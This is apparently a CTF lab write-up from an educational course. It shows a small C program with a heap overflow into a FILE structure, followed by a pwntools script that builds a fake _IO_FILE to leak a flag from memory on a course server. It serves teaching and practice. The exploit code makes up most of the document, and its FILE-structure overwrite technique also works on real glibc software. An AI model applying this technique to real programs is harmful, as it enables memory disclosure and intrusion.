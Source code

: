 # Simple PWN 0x22(Lab - `AAR`)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
:::spoiler Original Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
:::

## Exploit - heap overflow + overlap flag
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

context.arch = 'amd64'

flag_addr = 0x404050

raw_input()
payload = flat(
    p64(0)*4,
    p64(0xfbad0800),        #_flags
    p64(0),                 #_IO_read_ptr
    p64(flag_addr),         #_IO_read_end
    p64(0),                 #_IO_read_base
    p64(flag_addr),         #_IO_write_base
    p64(flag_addr+0x10),    #_IO_write_ptr
    p64(0)*8,               #_IO_write_end + _IO_buf_base + _IO_buf_end + _chain
    p64(0x1)                #_fileno
)

r.send(payload)

r.interactive()
```
